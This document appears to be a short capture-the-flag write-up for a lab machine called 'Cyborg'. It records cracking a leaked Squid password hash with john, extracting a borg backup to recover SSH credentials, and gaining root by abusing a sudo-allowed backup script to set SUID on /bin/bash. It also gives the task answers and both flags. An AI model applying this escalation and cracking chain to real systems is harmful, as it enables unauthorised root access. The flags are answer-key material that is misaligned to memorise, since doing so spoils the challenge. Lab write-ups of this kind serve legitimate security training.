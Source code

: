 # Cyborg

```
export IP=10.10.21.46
```

# Material needed

1. Interesting directory: /admin/archive.tar, /etc/squid/passwd

2. Password crack

```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.

john --wordlist=/usr/share/wordlist/rockyou.txt hash

Result:

music_archive:squidward
```

3. Borg extract

```
borg list final_archive
Enter passphrase: squidward
music_archive                        Tue, 2020-12-29 09:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]

borg extract final_archive/::music_archive 
Enter passphhrase: squidward
```

4. SSH credential

```
alex:S3cretP@s3
```

5. Privilege escalation

```
parsing bash script options with getopts

sudo -u root /etc/mp3backups/backup.sh -c /bin/bash  # the command result isn't show

chmod 4577 /bin/bash # change permission of bash
/bin/bash -p # access root shell with bash
```

# Tasks

1. Scan the machine, how many ports are open? 2

2. What service is running on port 22? SSH

3. What service is running on port 80? HTTP

4. What is the user.txt flag?

```
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
```

5. What is the root.txt flag?

```
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```